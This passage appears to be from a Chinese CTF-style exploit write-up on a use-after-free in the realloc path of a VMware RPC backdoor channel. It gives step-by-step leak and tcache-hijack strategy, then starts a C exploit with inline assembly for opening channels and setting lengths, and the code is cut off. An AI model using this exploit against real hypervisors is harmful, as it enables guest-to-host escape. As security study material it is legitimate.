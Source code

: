前面说过了，漏洞存在于realloc中，利用该UAF可以造成泄露等操作。实际上leak和利用的思路还是和rw差不多的。

此处的UAF位置在realloc环节也就是设置发送长度的环节，但是造成UAF leak虚表还是需要先设置一个0x100大小的缓冲区。

- 开启channel A channel B
- A设置buffer为0x100， B 使用info get也设置为0x100
- 然后set\_len触发A漏洞，B get这个buffer，A再次触发漏洞。此时B 的buffer已经在tcache里了
- 调用dnd\_vison函数写入虚表
- leak

漏洞利用也是和rw一样，直接tcache劫持即可

0x02 exp
========

主要的流程还是复制rw2018的，改动少部分即可。还是对师傅的脚本分析

leak函数

![图片.png](https://shs3.b.qianxin.com/attack_forum/2022/06/attach-4b9fefc7745ee94ae07cccc09bfdcb91cf0fb928.png)

完整的channel 0 发送指令

![图片.png](https://shs3.b.qianxin.com/attack_forum/2022/06/attach-d6ac75d5867ddf6d2826a4909d4a23d798ecc4e9.png)

channel发送部分info get

![图片.png](https://shs3.b.qianxin.com/attack_forum/2022/06/attach-a5dfc228eaf5bbe1046ff8828591417ae8e7d130.png)

free channel 0 的buffer，然后在channel 1realloc出来。

![图片.png](https://shs3.b.qianxin.com/attack_forum/2022/06/attach-cf4ca0bca038198b936f068479e3d7c86b304719.png)

再次free

![图片.png](https://shs3.b.qianxin.com/attack_forum/2022/06/attach-6101b8e1bf488c5b22fc638bf5ee6759f7e47d59.png)

dnd\_verison打入虚表

tcache劫持操作也是一样的，只是改掉了触发的位置。

```c
#include <stdio.h>
#include <stdint.h>
void channel_open(int *cookie1,int *cookie2,int *channel_num,int *res){
    asm("movl %%eax,%%ebx\n\t"
        "movq %%rdi,%%r10\n\t"
        "movq %%rsi,%%r11\n\t"
        "movq %%rdx,%%r12\n\t"
        "movq %%rcx,%%r13\n\t"
        "movl $0x564d5868,%%eax\n\t"
        "movl $0x49435052,%%ebx\n\t"
        "movl $0x1e,%%ecx\n\t"
        "movl $0x5658,%%edx\n\t"
        "out %%eax,%%dx\n\t"
        "movl %%edi,(%%r10)\n\t"
        "movl %%esi,(%%r11)\n\t"
        "movl %%edx,(%%r12)\n\t"
        "movl %%ecx,(%%r13)\n\t"
        :
        :
        :"%rax","%rbx","%rcx","%rdx","%rsi","%rdi","%r8","%r10","%r11","%r12","%r13"
       );
}

void channel_set_len(int cookie1,int cookie2,int channel_num,int len,int *res){
    asm("movl %%eax,%%ebx\n\t"
        "movq %%r8,%%r10\n\t"
        "movl %%ecx,%%ebx\n\t"
```